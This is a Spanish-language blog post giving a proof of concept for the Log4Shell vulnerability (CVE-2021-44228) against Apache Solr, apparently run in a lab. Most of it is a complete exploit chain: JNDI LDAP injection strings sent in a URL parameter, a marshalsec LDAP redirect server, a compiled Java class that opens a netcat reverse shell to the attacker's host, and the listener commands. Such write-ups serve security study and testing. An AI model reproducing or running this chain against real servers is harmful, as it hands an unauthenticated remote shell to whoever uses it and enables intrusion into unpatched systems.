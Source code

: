 ```yaml
---
layout: single
title:  "log4j CVE-2021-44228 POC"
categories: [cve, poc, articulo]
---
```


## Explotacion de log4jshell  CVE-2021-44228

El pasado jueves salió a la luz una vulnerabilidad que afecta al Java logging package llamado **Log4j**. Etiquetada como **`CVE-2021-44228`** conocida por apodos como **Log4Shell** o **LogJam** y descubierta por el equipo de seguridad de Alibaba, el problema se refiere a un caso de ejecución remota de código no autenticado (RCE) en cualquier aplicación que use esta utilidad de código abierto y afecte a las versiones no parcheadas, de Apache Log4j 2.0-beta9 hasta la 2.14. 1. El error fue calificado con la puntuación máxima de <span style="color:red">10 sobre 10</span>   en el sistema de clasificación CVSS, lo que indica la enorme gravedad del problema.


Para aprovecharnos de esta vulnerabilidad puede ser fácil o a la vez no. La idea es encontrar algún parámetro con lo que enviemos se guarde en los logs para que luego se ejecute, puede ser tanto en el user-agent o en algún parámetro get o post de la url , etc

## POC

 [Apache Solr 8.11.0](https://solr.apache.org/) es una aplicación vulnerable en la que enviándole data en `/solr/admin/cores?foo=` lo va a guardar en los logs. Podemos probar esto de la siguiente manera <br>

 enviando `${jndi:ldap://<IP><PUERTO>}` si es vulnerable nos debería traer una conexión ldap que no entiende la terminal 

 ``` http://10.10.207.24:8983/solr/admin/cores?foo=${jndi:ldap://10.14.13.223:3000} ```

 ![reverse](/assets/articulos/log4j/reverse.png)

Una vez hecho esto, para ganar ejecución de comandos remota tenemos que hacer redireccionar la petición ldap 

Usamos este proyecto que tenemos que compilar con maven <br>
``sudo apt install maven`` <br>
[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec) <br>
```mvn clean package -DskipTests``` <br>

![reverse](/assets/articulos/log4j/marshallsec.png)


Ya con nuestro ldap redirector usamos este comando para decirle que abra ruta en nuestro host en el puerto 8080, que próximamente crearemos 

``` java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<IP>:8000/#Exploit" ```

![ref](/assets/articulos/log4j/ref.png)
 <br>
 Ahora que tenemos nuestro servidor ldap listo, creamos nuestro payload final <br>
 Creamos un script en java el cual tenemos que compilar para que log4j lo ejecute

 ```java

public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash <IP> <PUERTO>");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

 ```
```javac Exploit.java -source 8 -target 8```


![ref](/assets/articulos/log4j/compilado.png)

Por último creamos nuestro servidor en python en el puerto **8000** `python3 -m http.server 8000` y nuestro netcat en escucha `nc -lvp <PUERTO>`

ahora enviamos en la máquina atacante `${jndi:ldap://10.14.13.223:1389/Exploit}` <br>
`http://10.10.207.24:8983/solr/admin/cores?foo=${jndi:ldap://10.14.13.223:1389/Exploit}`

![get](/assets/articulos/log4j/get.png)

Y en nuestro netcat que habíamos creado 


![get](/assets/articulos/log4j/revshell.png)




